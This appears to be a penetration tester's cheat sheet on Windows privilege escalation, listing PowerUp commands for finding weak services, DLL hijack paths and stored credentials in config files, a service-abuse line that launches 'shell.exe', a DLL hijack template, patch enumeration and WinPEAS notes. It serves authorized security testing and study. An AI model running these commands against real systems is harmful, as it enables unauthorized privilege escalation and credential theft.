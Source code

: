 ### PowerUp
```PowerShell
# Quick full check
Invoke-AllChecks

# Vulnerable services
#Get-ServiceUnquoted
#Get-ServiceFilePermission # services we have write permissions on binary
#Get-ServicePermission # service we can modify (config, start/stop, etc.)

# DLL Hijacking candidates
#Get-PathHijackable # directories in path that we can write to
Get-ModifiablePath # modifiable directories in ENV variables
Get-ModifiableServiceFile

# Credential Hunting
# Get-RegAutoLogon
Get-UnattendedInstallFile # Unattended install files
Get-WebConfig # looks for connection strings in web.config files

# Registry / AutoRuns
#Get-RegAlwaysInstallElevated
Get-ApplicationHost # looks for credentials in applicationHost.config

# Exploitation Helpers
# Abuse unquoted service path
Invoke-ServiceAbuse -Name "VulnService" -Command "C:\Temp\shell.exe"
# DLL hijack template
#Invoke-ProcessDLLHijack -Command "C:\Temp\shell.exe" -DLL "evil.dll" # Command is the target executable that is vulnerable; DLL is DLL that is vulnerable
```
### Kernel Exploits
```PowerShell
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" } # Enumerate security updates

systeminfo
```


---
### WinPEAS
```bash
cp /usr/share/peass/winpeas/winPEASx64.exe .
```
Color Legend:
```
Red:         Indicates a special privilege over an object or something is misconfigured
Green:       Indicates that some protection is enabled or something is well configured
Cyan:        Indicates active users
Blue:        Indicates disabled users
LightYellow: Indicates links
```
Lists in order:
- System information
- Transcript file locations
- Users/groups
- Processes, services, and scheduled tasks, network information, and installed applications
- `Looking for possible password files in users homes`
